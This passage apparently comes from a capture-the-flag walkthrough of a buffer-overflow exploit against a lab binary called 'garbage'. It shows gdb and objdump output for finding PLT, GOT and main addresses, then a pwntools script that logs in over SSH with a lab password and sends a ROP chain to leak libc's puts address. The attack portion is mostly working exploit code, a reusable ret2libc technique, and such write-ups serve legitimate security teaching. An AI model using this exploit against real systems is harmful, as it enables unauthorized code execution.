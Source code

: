     
    
    gdb-peda$ disassemble 0x401050
    Dump of assembler code for function puts@plt:
       0x0000000000401050 <+0>:     jmp    QWORD PTR [rip+0x2fd2]        # 0x404028 <puts@got.plt>
       0x0000000000401056 <+6>:     push   0x2
       0x000000000040105b <+11>:    jmp    0x401020
    End of assembler dump.
    

And that code shows the GOT address, 0x404028.

I can more easily get these two addresses by running `objdump`:

    
    
    root@kali# objdump -D garbage | grep puts@GLIBC
      401050:       ff 25 d2 2f 00 00       jmpq   *0x2fd2(%rip)        # 404028 <puts@GLIBC_2.2.5>
    

The PLT address is at the start of the line, and the GOT is at the end.

#### Main

I also need the address of main, so that I can start the program over and get
a second chance to overflow it without the ASLR resetting. I can `disassemble
main` and get it, or get it with `objdump`:

    
    
    root@kali# objdump -D garbage | grep '<main>'
    0000000000401619 <main>:
    

Were PIE enabled, this address would change on each run, but as it isn’t, it
will be static.

### Run Stage 1

Putting this all together, I’ll use the `pwntools` Python library to create an
ssh connection as margo, and then run the overflow. Here’s the script so far:

    
    
    #!/usr/bin/env python
    
    from pwn import *
    
    #context.log_level = "DEBUG"
    sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
    garbage = sshConn.process('garbage')
    
    junk     = "A" * 136      # offset from pattern
    pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
    puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
    puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
    main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 
    
    stage_1 = junk + pop_rdi + puts_got + puts_plt
    garbage.sendline(stage_1)
    garbage.recvuntil("access denied.\n")
    leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
    log.success("Leaked puts address: 0x%x" % leaked_puts)
    